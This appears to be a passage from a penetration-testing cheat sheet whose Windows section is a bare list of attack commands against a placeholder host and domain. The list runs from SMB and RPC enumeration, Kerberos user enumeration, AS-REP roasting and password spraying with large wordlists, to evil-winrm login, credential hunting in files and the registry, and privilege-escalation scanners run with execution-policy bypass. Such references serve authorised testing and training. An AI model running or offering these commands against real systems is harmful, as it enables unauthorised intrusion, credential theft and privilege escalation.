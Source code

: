 
### Windows

```
root@kali:$ enum4linux -v -a 127.0.0.1 | tee enum4linux.txt
root@kali:$ nullinux.py 127.0.0.1
root@kali:$ crackmapexec smb 127.0.0.1
root@kali:$ crackmapexec smb 127.0.0.1 -u 'anonymous' -p '' --shares
root@kali:$ smbclient -N -L 127.0.0.1
root@kali:$ rpcclient -U '' -N 127.0.0.1
root@kali:$ kerbrute userenum -d EXAMPLE.LOCAL --dc 127.0.0.1 /usr/share/seclists/Usernames/Names/names.txt -t 50
root@kali:$ GetNPUsers.py EXAMPLE.LOCAL/ -dc-ip 127.0.0.1 -request
root@kali:$ crackmapexec smb 127.0.0.1 -u snovvcrash -p /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
root@kali:$ kerbrute bruteuser -d EXAMPLE.LOCAL --dc 127.0.0.1 /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt snovvcrash -t 50
root@kali:$ evil-winrm.rb -u snovvcrash -p 'Passw0rd1!' -i 127.0.0.1 -s `pwd` -e `pwd`

PS > systeminfo
PS > whoami /priv (whoami /all)
PS > gci "$env:userprofile" -recurse -force -af |select fullname
PS > net user
PS > net user /domain
PS > net user j.doe /domain
PS > net accounts
PS > net accounts /domain
PS > net localgroup Administrators
PS > net group /domain
PS > net group "Domain admins" /domain
PS > net group "Enterprise admins" /domain
PS > cmdkey /list
PS > wmic product get name
PS > get-process
PS > tasklist /SVC
PS > net start
PS > netstat -ano | findstr LIST
PS > ipconfig /all
PS > route print
PS > dir -force c:\
PS > [Environment]::Is64BitOperatingSystem
PS > $ExecutionContext.SessionState.LanguageMode

PS > cmd /c dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
PS > cmd /c where /R C:\ *.ini
PS > REG QUERY HKLM /f "password" /t REG_SZ /s
PS > REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | findstr /i "DefaultUserName DefaultDomainName DefaultPassword AltDefaultUserName AltDefaultDomainName AltDefaultPassword LastUsedUsername"
PS > reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" | findstr /i proxy

PS > .\winPEAS.bat
PS > .\jaws-enum.ps1 -OutputFileName jaws-enum.txt
PS > powershell.exe -nop -exec bypass -c "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks |Out-File PowerUp.txt}"
PS > powershell.exe -nop -exec bypass -c "& {Import-Module .\Sherlock.ps1; Find-AllVulns |Out-File Sherlock.txt}"
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)